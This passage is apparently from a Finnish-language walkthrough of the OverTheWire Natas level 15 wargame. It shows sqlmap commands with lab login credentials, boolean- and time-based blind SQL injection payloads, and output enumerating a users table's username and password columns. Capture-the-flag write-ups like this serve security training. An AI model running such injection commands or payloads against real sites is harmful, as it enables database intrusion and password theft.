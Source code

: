 ```
[12:59:06] [INFO] retrieved: password
[12:59:13] [INFO] retrieved: varchar(64)
Database: natas15
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(64) |
| username | varchar(64) |
+----------+-------------+

[12:59:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[12:59:19] [WARNING] your sqlmap version is outdated

[*] ending @ 12:59:19 /2025-05-18/
```


## Dump data sarakkeista username,password

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--dump -D natas15 -T users -C username,password
        ___
       __H__                                                                                                                   
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . [.]     | .'| . |                                                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:00:08 /2025-05-18/

[13:00:08] [INFO] resuming back-end DBMS 'mysql' 
[13:00:10] [INFO] testing connection to the target URL
[13:00:10] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
```